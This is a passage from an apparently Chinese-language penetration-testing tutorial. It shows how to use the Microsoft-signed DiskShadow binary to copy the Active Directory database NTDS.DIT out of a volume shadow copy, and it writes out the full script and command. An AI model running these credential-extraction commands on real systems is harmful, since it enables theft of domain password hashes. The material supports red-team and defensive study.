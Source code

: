 ##### [diskshadow](#toc_diskshadow)

DiskShadow 是 Microsoft 签名的二进制文件，用于协助管理员执行与卷复制服务（VSS）相关的操作。最初 bohops 在他的博客中写到了这个二进制文件。这个二进制文件有两个交互式和脚本模式，因此可以使用一个脚本文件，它将包含自动执行 NTDS.DIT 提取过程所需的所有命令。脚本文件可以包含以下行，以便创建新的卷影副本，装入新驱动器，执行复制命令并删除卷影副本，在使用时需要注意一点，DiskShadow 二进制文件需要从 C\\Windows\\System32 路径执行，如果从另一个路径调用它，脚本将无法正确执行：

set context persistent nowriters  
add volume c: alias someAlias  
create  
expose %someAlias% z:  
exec "cmd.exe" /c copy z:\\windows\\ntds\\ntds.dit c:\\ntds.dit  
delete shadows all  
reset

在 cmd 下执行以下命令：

diskshadow.exe /s c:\\diskshadow.txt

[![image.png](assets/1698894155-a920de18ab1c3210a9b1926e7ec3a969.png)](https://storage.tttang.com/media/attachment/2022/09/30/f2c9cea8-cfa3-4502-9599-afe3014aba34.png)

之后查看 c 盘可以看到成功复制文件：
